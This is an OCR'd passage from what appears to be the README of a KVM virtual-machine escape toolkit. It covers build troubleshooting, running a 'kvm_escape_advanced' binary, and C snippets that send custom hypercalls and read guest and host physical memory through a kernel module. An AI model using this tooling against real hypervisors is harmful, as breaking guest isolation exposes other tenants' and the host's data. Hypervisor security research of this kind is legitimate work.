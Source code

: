 ### Compilation Errors
```bash
# Install required packages
sudo apt-get update
sudo apt-get install build-essential linux-headers-$(uname -r)

# Clean and rebuild
make clean
./build.sh
```

### No Output from Tools
```bash
# Verify module is loaded
lsmod | grep kvm_probe

# Check dmesg for errors
sudo dmesg | grep -i error

# Try with sudo
sudo ./kvm_escape_advanced
```

## Advanced Usage

### Custom Hypercall Testing

```c
// In your code:
struct hypercall_args args = {
    .nr = 101,              // Hypercall number
    .arg0 = 0x64279a8,     // Source HPA
    .arg1 = shared_gpa,    // Dest GPA
    .arg2 = 256,           // Size
    .arg3 = 0
};

ioctl(fd, IOCTL_HYPERCALL_ARGS, &args);
printf("Return: 0x%lx\n", args.ret_value);
```

### Reading Specific Memory

```c
// Read guest physical address
struct gpa_io_data data = {
    .gpa = 0x1000000,
    .size = 4096,
    .user_buffer = malloc(4096)
};
ioctl(fd, IOCTL_READ_GPA, &data);

// Read via ioremap (for MMIO/potential HPA)
struct hpa_io_data hpa_data = {
    .hpa = 0x64279a8,
    .size = 256,
    .user_buffer = malloc(256)
};
ioctl(fd, IOCTL_READ_HPA, &hpa_data);
```
